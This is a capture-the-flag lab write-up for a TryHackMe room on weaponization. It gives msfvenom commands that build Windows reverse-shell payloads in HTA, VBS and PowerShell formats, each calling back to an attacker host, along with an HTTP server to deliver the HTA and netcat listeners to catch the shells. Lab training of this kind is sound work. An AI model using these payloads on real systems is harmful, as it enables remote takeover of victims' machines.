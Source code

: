 # Weaponization

**Room Link:** [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)



## Practice Area

**From the room:** The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

We will be exploiting this box with every mentioned above.&#x20;

### HTA

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o thm.hta
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (15) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### VBS

**Kali #1**

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f vbs -o exploit.vbs
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>

### DOC

Do when have access to a Windows machine with word.

### PS1

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f psh -o exploit.ps1
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>
